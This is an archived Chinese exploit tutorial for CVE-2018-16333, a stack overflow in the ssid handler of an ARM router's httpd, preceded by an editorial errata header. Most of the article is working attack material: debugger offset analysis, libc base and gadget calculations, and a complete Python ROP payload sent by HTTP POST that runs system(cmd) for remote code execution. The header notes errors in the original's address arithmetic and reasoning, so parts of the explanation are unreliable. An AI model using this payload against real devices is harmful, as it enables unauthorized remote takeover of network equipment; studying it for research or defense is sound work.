# 栈溢出从复现到挖掘-CVE-2018-16333漏洞复现详解

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：CVE-2018-16333 ARM栈溢出教学，产品缺失
- 文献类型：技术文章（细分类待核）
- 版本、权限及部署边界：全文未命名设备型号/固件版本，启动环境依赖未链接上一篇，仅先知原文；原文两组 Cookie 样例分别为 password=1234111115 和 password=12345，实际认证前提未知；若readable地址字符串过长仍有二次溢出风险，缺null/长度条件
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. 全文未命名设备型号/固件版本，启动环境依赖未链接上一篇，仅先知原文
2. 原文两组 Cookie 样例分别为 password=1234111115 和 password=12345，实际认证前提未知
3. 两次strcpy需保持src可读避免第二次崩溃，不是第二次从libc常量复制ROP，正文目标解释错误
4. 地址减法0x40800264-0x7c写0x08001E8漏高位，src地址同类
5. 前文return=fp+4而最终pop_r3在fp、system在fp+4，需真实函数epilogue解释不能声称完全证明
6. 小端不决定寄存器4字节，是32位ARM
7. libc puts运行地址不是基址，后有减偏移算法正确
8. 固定基址/gadget和两次请求不明原因说明可靠性未解决
9. 若readable地址字符串过长仍有二次溢出风险，缺null/长度条件
10. 无修复版本/官方报告

### 操作风险

两次strcpy需保持src可读避免第二次崩溃，不是第二次从libc常量复制ROP，正文目标解释错误

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原始披露 URL 未确认；既有归档来源标签保留，不能替代原始公告

### 归档技术正文

原创 Vlan911  我不懂安全   2025-05-11 14:38  
  
### 此文章首发至先知社区  
### https://xz.aliyun.com/news/17940  
###   
### 启动程序的方式与上一篇文章相同，此处不进行赘述  
### 漏洞点位分析  
  
漏洞成因是web服务在处理post请求时，对ssid参数直接复制到栈上的一个局部变量中，参数没有进行长度限制，导致栈溢出。根据ssid字符串定位到form_fast_setting_wifi_set函数。   
  
  
  
程序获取ssid参数后，没有经过检查就直接使用strcpy函数复制到栈变量中。其中有个细节：第一次的strcpy如果要溢出到返回地址，会覆盖第二次的strcpy的参数dest。因此，为了将src指针覆盖为有效地址，并且不影响第一次的strcpy， 需要绕过两次  
strcpy  
的安全隐患，确保第二次  
strcpy  
不崩溃，因此Payload中需包含可读地址   
  
  
- 1、溢出后跳到第一个gadget1，控制r3寄存器为system函数地址，第一个pc控制为gadget2  
  
- 2、跳转到gadget2后，控制r0为要执行的命令即可  
  
- 3、执行system(cmd)  
  
### 偏移量分析  
  
启动调试，这里需要换成pwndgb，因为pwndgb可以支持更多的指令，特别是计算偏移量  
```
# 第一个终端，使用用户模式启动程序
sudo chroot ./ ./qemu -g 1234 
./bin/httpd
# 第二个终端
gdb-multiarch
target remote :1234
b *0x67028    #第一个strcpy之前的位置
b *0x6707C    #第一个strcpy的位置
#b *0x67080    #第二个strcpy函数的第一个参数位置
#b *0x67090    #第二个strcpy的位置
info breakpoints   # 或简写为 `i b`   查看断点c
#第三个终端
python3 4.py #漏洞溢出测试脚本
```  
```
# 4.py测试脚本如下所示
import requests
from pwn import * 
url = "http://192.168.50.18/goform/fast_setting_wifi_set"
cookie = {"Cookie":"password=1234111115"}
data = {"ssid": cyclic(500)}
response = requests.post(url, cookies=cookie, data=data)
response = requests.post(url, cookies=cookie, data=data)
print(response.text)
```  
  
  
  
首先看一下ida对两个strcpy的汇编代码  
  
  
  
汇编代码详解如下：  
```
.text:0006706C     SUB      R2, R11, #-s      # R2=R11-s 计算dest地址
.text:00067070     LDR      R3, [R11,#src]    # 加载src指针到R3
.text:00067074     MOV      R0, R2  ; dest    # 将R2的值赋给R0,设置目的地址dest
.text:00067078     MOV      R1, R3  ; src     # 将R3值赋给R1，设置源地址src
.text:0006707C     BL       strcpy
.text:00067080     SUB      R2, R11, #-dest    # R2=R11-dest  计算dest地址
.text:00067084     LDR      R3, [R11,#src]     # 加载src指针到R3
.text:00067088     MOV      R0, R2  ; dest     # 将R2的值赋给R0,设置目的地址dest
.text:0006708C     MOV      R1, R3  ; src      # 将R3值赋给R1，设置源地址src
.text:00067090     BL       strcpy
```  
  
上述代码都加载了src的指针，所以如果第一次溢出，第二次不处理就会导致程序异常，接下来看pwndbg调试，首先在第一个strcpy函数前打断点，strcpy函数打断点；并对第二个strcpy函数之前打断点，strcpy函数打断点，而后运行测试脚本  
  
首先可以看寄存器区域，主要看R0寄存器、R11寄存器、SP寄存器、PC寄存器  
  
R0寄存器一般是函数的第一个传参，这里代表的是strcpy函数的第一个参数，目前还没有步入到0x676c，所以值还没有传入  
  
R11寄存器当前的栈帧基址为0x40800264，在ARM架构里，R11寄存器一般代表FP寄存器，他的值指向当前函数的栈帧基址；  
  
SP寄存器当前的栈帧基址为0x407fffe8，SP寄存器代表栈指针，指向当前栈顶(最低地址)  
  
PC寄存器指向下一个即将执行的代码区域  
  
  
  
执行ni指令，步入，后续按回车就行  
  
此时程序已经执行完IDA的汇编代码SUB R2,R11,#-s ，对应的是pwndbg里面的的sub r2, fp, #0x7c  
  
这行代码的意思就是，计算dest的地址(char s)，计算方式为R11 - 0x7c=0x40800264-0x7c=0x08001E8 ，对应的是R2寄存器的值，由调试结果可知， 从栈帧基址（  
FP  
）向低地址方向偏移   
124  
 字节（  
0x7C  
），定位到   
char s  
 缓冲区的起始地址 ，也就是说char s的偏移量为7C  
  
  
  
下图为执行了 0x67070 ldr r3, [fp, #-0x1c] 指令，该指令为加载src指针到R3寄存器，从这里可以看到，SRC的栈帧指针为 R11 - 0x1c=0x40800264-0x1c=0x0800248  
  
  
  
继续执行一步，0x67074 mov r0, r2 ，此汇编代码市纪委将R2赋值给R0，实际上就是设置目的地址为char s  
  
  
  
继续执行，发现执行了0x67078 mov r1, r3，此代码的是设置源地址(src)，而后就是将源地址的字符串赋值到目的地址代表的char s，从而完成strcpy(s,str)  
  
  
  
如果想调试第二个函数，直接按c回车，对第二个函数单独分析（第二次调试打俩断点，第一个是0x67080，第二个是0x67090）  
  
  
  
从调试结果可以看到，第二个strcpy函数也对src进行了加载，dest的地址为0x408001a8   
  
  
  
对比一下ida 中的伪代码可以看到  
  
char s[64]; // [sp+200h] [bp-7Ch] BYREF  
  
char dest[64]; // [sp+1C0h] [bp-BCh] BYREF  
  
char *src; // [sp+260h] [bp-1Ch]  
  
ida反汇编会有一点小瑕疵，比如在arm架构，栈帧基址应该是fp寄存器，但是在ida里显示的是bp，sp+200h与bp-7ch的结果是一样的，这个也可以作为偏移量进行计算对照参考，但是实际结果还是需要看pwndbg的调试，这个结果相对稳定  
  
  
  
由此，我们可以得到大致的栈帧结构图  
  
  
  
根据堆栈图，我们不难发现，src对应栈底的偏移量是0x1C；char s到栈底的偏移量是0x7c；返回地址是根据栈底+4个字节计算得来的，所以src 距离返回地址的距离是0x20；而char s到src的偏移量就是0x60；  
  
上面我们提到，由于两个strcpy函数都对src进行了调用，所以第一次传入src溢出后也会影响到第二个strcpy函数，导致程序溢出崩溃从而无法执行system指令  
  
所以为了能够完成漏洞利用，我们需要对利用链进行切割  
#### (1) 第一次 strcpy(s, src)  
- **目标**  
：覆盖   
src  
 指针，使其指向可控地址（如   
libc  
 中的可读地址）。  
  
- **偏移量**  
：   
  
- s  
 到   
src  
 的距离 =   
(bp - 0x1C) - (bp - 0x7C) = 0x60  
（96字节）。  
  
- **Payload 部分**  
：  
  
```
payload = b'A' * 0x60 + p32(readable_addr)  # 覆盖到 `src` 并篡改指针
```  
#### (2) 第二次 strcpy(dest, src)  
- **目标**  
：通过被篡改的   
src  
 指针，向   
dest  
 写入ROP链，覆盖返回地址。  
  
- **关键点**  
：   
  
- dest  
 到返回地址的距离 =   
(bp + 4) - (bp - 0xBC) = 0xC0  
（192字节）。  
  
- 但实际只需覆盖   
src  
 到返回地址的   
0x20  
（32字节），因为   
dest  
 是中间跳板。  
  
p32(readable_addr)  
 占 **4字节**  
， 返回地址本身占**4字节(arm架构中，需要4字节填充)**  
， 所以实际填充长度是**32-4-4=24字节**  
#### (3) payload结构  
  
所以payload应该调整为  
```
payload = (
    b'A' * 0x60              # 覆盖到src指针位置(96字节)
    + p32(readable_addr)     # 覆盖src指针(4字节)    
    + b'C' * 24              # 覆盖剩余空间到返回地址(24字节)
    + p32(pop_r3)            # ROP链开始
    + p32(system)
    + p32(mov_r0_ret_r3)
    + cmd)
```  
  
下图为栈帧示意图  
  
  
### readable_addr可读地址  
  
使用ida pro打开libc.so.0文件，理论上只要是rodata的常量的偏移量，都可以拿来用，但是这里只是偏移量，需要跟上实际的地址，这个地址就是lib基址  
  
  
### lib基址计算  
```
sudo chroot ./ ./qemu -g 1234 ./bin/httpd  #qemu用户模式启动，-g开启gdbserver远程调试

gdb-multiarch  #gdb远程调试调用
target remote :1234  #连接需要调试的端口
file ./bin/httpd   #联动需要调试的文件
b puts  #puts函数设置断点
continue  #同c，启动
```  
###   
  
  
  
由此可见，在内存映射里面的基址地址是0x3fdd1cd4  
  
  
  
使用ida打开libc.so.0，查看puts的相对偏移量为0x35CD4  
  
  
  
由此可知 lib基址为  
```
lib_base = 0x3fdd1cd4 - 0x35CD4 = 0x3FD9C000
```  
### system基址计算  
  
计算system函数偏移量  
```
readelf -s ./lib/libc.so.0 |grep system
system_addr = libc_base + 0x5A270
```  
  
  
### Gadget解析  
  
**跳转到R3的gadget1_addr**  
```
ROPgadget --binary ./lib/libc.so.0 --only "pop"| grep r3
0x00018298 : pop {r3, pc}
```  
  
  
- **0x00018298 : pop {r3, pc}**  
- **功能**  
：从栈顶弹出两个值，分别存入   
r3  
 和   
pc  
。( 将   
system  
 地址存入   
r3  
)  
  
- **用途**  
：控制   
r3  
 寄存器的值，并直接跳转到   
pc  
 指向的地址。( 用于初始化   
r3  
 和跳转 )  
  
**找到一个可以控制R0的gadget2_addr**  
```
ROPgadget --binary ./lib/libc.so.0  | grep "mov r0, sp"
0x00040cb8 : mov r0, sp ; blx r3
```  
  
  
- **0x00040cb8 : mov r0, sp ; blx r3**  
- **功能**  
：将栈指针   
sp  
 的值赋给   
r0  
，然后跳转到   
r3  
 寄存器指向的地址执行（ 此时   
r3  
 已被前一步赋值为   
system_addr  
）。  
  
- **用途**  
：用于将栈顶数据（如命令字符串）传递给   
r0  
（ 用于传递参数并触发   
system()  
）。  
  
#### ARM调用约定：在ARM中，函数调用时：   
- 第一个参数通过   
r0  
 传递。  
  
- 函数地址通常通过   
blx r3  
 跳转（  
r3  
 存储目标地址）  
  
#### 关键寄存器作用  
- **r0**  
：ARM架构中用于传递函数第一个参数（如   
system("/bin/sh")  
 中的   
"/bin/sh"  
 地址）。  
  
- **r3**  
：通用寄存器，此处用于暂存   
system  
 函数地址。  
  
- **pc**  
：程序计数器，指向下一条要执行的指令地址。通过控制   
pc  
，可以劫持程序流。  
  
由此，完整的payload为：  
### 完整payload  
```
import requests
from pwn import *

cmd=b"echo success111"
libc_base = 0x3fd9c000
system = libc_base + 0x5A270
readable_addr = libc_base + 0x6415F
mov_r0_ret_r3 = libc_base + 0x40cb8
pop_r3 = libc_base + 0x18298
payload = b'a'*(0x60) + p32(readable_addr) + b'b'*(0x20-8)
payload+= p32(pop_r3) + p32(system) + p32(mov_r0_ret_r3) + cmd
url = "http://192.168.50.18/goform/fast_setting_wifi_set"
cookie = {"Cookie":"password=12345"}
data = {"ssid": payload}
response = requests.post(url, cookies=cookie, data=data)
response = requests.post(url, cookies=cookie, data=data)
print(response.text)
```  
  
执行脚本，成功实现rce  
  
  
  
程序有时候会抽风，需要点几下ctrl+c  
  
response = requests.post(url, cookies=cookie, data=data) 这个重复两次，是因为如果只发一次包，回来的东西不太对，不知道是啥问题  
  
通过堆栈查看，发现数据已经插入  
  
  
  
若是在0x67080 也就是strcpy传参处打断点，然后查看栈空间，我们可以看见，从r0(函数第一个传参处)0x408001e8 到寄存器0x40800248 都已经被"aaaa"覆盖，并且0x40800248地址也指向libc可读地址，0x3fe0015f = libc_base + 0x6415F = 0x3fd9c000 + 0x6415F = 0x3FE0015F ，与栈内是可以对应的上的  
  
  
  
由于arm架构小端，所以每个寄存器占用4个字节，所以从0x40800248 +4 到0x40800264 进行字节占用补充("bbbb")，为0x20 - 8 = 24 字节 ；  
  
0x40800264 栈底开始进行rog链构造，对应的就是  
  
pop_r3 = libc_base + 0x18298 = 0x3fd9c000 + 0x18298 = 0x3FDB4298   
  
0x40800268返回地址 对应  
  
system基址 = libc_base + 0x5A270 = 0x3fd9c000 + 0x5A270 = 0x3fdf6270  
  
0x4080026c 为后续执行地址，对应  
  
mov_r0_ret_r3 = libc_base + 0x40cb8 = 0x3fd9c000 + 0x40cb8 = 0x3FDDCCB8  
  
0x40800270 栈帧基址开始执行cmd指令，至此，证明思路完全没问题  
```
80:0200│ r0   0x408001e8 ◂— 0x61616161 ('aaaa')
... ↓         23 skipped
98:0260│      0x40800248 —▸ 0x3fe0015f ◂— cdpvs p14, #6, c6, c15, c1, #3 /* 'anonymous' */
99:0264│      0x4080024c ◂— 0x62626262 ('bbbb')
... ↓         5 skipped
9f:027c│ r11  0x40800264 —▸ 0x3fdb4298 ◂— pop {r3, pc}
a0:0280│      0x40800268 —▸ 0x3fdf6270 ◂— ldr r3, [pc, #0x144]
a1:0284│      0x4080026c —▸ 0x3fddccb8 ◂— mov r0, sp /* '\r' */
a2:0288│      0x40800270 ◂— 'echo success111'
a3:028c│      0x40800274 ◂— ' success111'
a4:0290│      0x40800278 ◂— 'cess111'
a5:0294│      0x4080027c ◂— 0x313131 /* '111' */
a6:0298│ r3   0x40800280 ◂— 'fast_setting_wifi_set'
a7:029c│      0x40800284 ◂— '_setting_wifi_set'
a8:02a0│      0x40800288 ◂— 'ting_wifi_set'
a9:02a4│      0x4080028c ◂— '_wifi_set'
aa:02a8│      0x40800290 ◂— 'i_set'
ab:02ac│      0x40800294 ◂— 0x74 /* 't' */
ac:02b0│      0x40800298 ◂— 0x0... ↓         55 skipped
e4:0390│      0x40800378 —▸ 0x66ee0 ◂— push {r4, r5, fp, lr}
e5:0394│      0x4080037c —▸ 0x119870 —▸ 0x11aaa0 ◂— 0
e6:0398│      0x40800380 ◂— 0x0
e7:039c│      0x40800384 —▸ 0x40800280 ◂— 'fast_setting_wifi_set'
```  
  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原始披露 URL 尚未确认，现有链接按来源追溯区分别标注）
